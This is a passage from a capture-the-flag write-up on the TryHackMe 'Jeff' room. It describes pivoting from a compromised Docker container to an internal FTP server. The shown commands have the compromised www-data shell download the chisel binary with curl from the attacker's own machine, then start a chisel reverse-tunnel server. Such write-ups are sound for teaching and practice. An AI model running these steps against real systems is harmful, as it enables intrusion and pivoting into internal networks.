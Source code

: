 ### Content of ftp_backup.php
![13](/assets/images/thm/jeff/13.png)

Looking at this incomplete PHP script, we can see that the script is trying to connect to the FTP server on address **172.20.0.1** which is the IP for the host from which all the docker containers are hosted. But our Nmap scan showed that there was no FTP server open on the normal interface. Maybe the FTP server is configured so that it can be accessed  only from the docker container.

## Port forwarding using [chisel](https://github.com/jpillora/chisel)
Since there is not ftp binary on the docker container, lets create a port tunnelling using chisel and access it from our local box.
### Downloading Chisel Binary using curl
```console
www-data@Jeff:/var/www/html$ curl 10.6.31.213:8000/chisel -o /tmp/chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 7192k  100 7192k    0     0   448k      0  0:00:16  0:00:16 --:--:--  850k
```
### On local box
```console
reddevil@ubuntu:~/Documents/tryhackme/jeff/www$ sudo ./chisel server -p 1880 --reverse
2020/12/28 21:18:18 server: Reverse tunnelling enabled
2020/12/28 21:18:18 server: Fingerprint 15:5d:fc:f3:f3:fc:8a:65:71:f8:8c:8e:85:24:67:4b
2020/12/28 21:18:18 server: Listening on 0.0.0.0:1880...

```
